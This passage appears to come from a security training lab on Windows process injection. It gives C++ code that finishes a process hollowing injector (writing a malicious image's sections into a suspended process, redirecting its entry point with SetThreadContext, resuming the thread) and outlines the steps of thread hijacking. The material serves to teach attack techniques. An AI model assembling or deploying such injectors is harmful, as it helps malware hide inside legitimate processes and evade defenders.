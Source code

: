 Now we need to write each section. To find the number of sections, we can use  `NumberOfSections` from the NT headers. We can loop through `e_lfanew` and the size of the current header to write each section.
```cpp
for (int i = 0; i < pNTHeaders->FileHeader.NumberOfSections; i++) { // Loop based on number of sections in PE data
	PIMAGE_SECTION_HEADER pSectionHeader = (PIMAGE_SECTION_HEADER)((LPBYTE)pMaliciousImage + pDOSHeader->e_lfanew + sizeof(IMAGE_NT_HEADERS) + (i * sizeof(IMAGE_SECTION_HEADER))); // Determines the current PE section header

	WriteProcessMemory(
		target_pi->hProcess, // Handle of the process obtained from the PROCESS_INFORMATION structure
		(PVOID)((LPBYTE)pHollowAddress + pSectionHeader->VirtualAddress), // Base address of current section 
		(PVOID)((LPBYTE)pMaliciousImage + pSectionHeader->PointerToRawData), // Pointer for content of current section
		pSectionHeader->SizeOfRawData, // Byte size of current section
		NULL
	);
}
```

It is also possible to use relocation tables to write the file to target memory. This will be discussed in more depth in task 6.

At step five, we can use `SetThreadContext` to change `EAX` to point to the entry point.
```cpp
c.Eax = (SIZE_T)((LPBYTE)pHollowAddress + pNTHeaders->OptionalHeader.AddressOfEntryPoint); // Set the context structure pointer to the entry point from the PE optional header

SetThreadContext(
	target_pi->hThread, // Handle to the thread obtained from the PROCESS_INFORMATION structure
	&c // Pointer to the stored context structure
);
```

At step six, we need to take the process out of a suspended state using `ResumeThread`.

```cpp
ResumeThread(
	target_pi->hThread // Handle to the thread obtained from the PROCESS_INFORMATION structure
);
```

We can compile these steps together to create a process hollowing injector. Use the C++ injector provided and experiment with process hollowing.


## Abusing Process Components
At a high-level thread (execution) hijacking can be broken up into eleven steps:

1. Locate and open a target process to control.
2. Allocate memory region for malicious code.
3. Write malicious code to allocated memory.
4. Identify the thread ID of the target thread to hijack.
5. Open the target thread.
6. Suspend the target thread.
7. Obtain the thread context.
8. Update the instruction pointer to the malicious code.
9. Rewrite the target thread context.
10. Resume the hijacked thread.

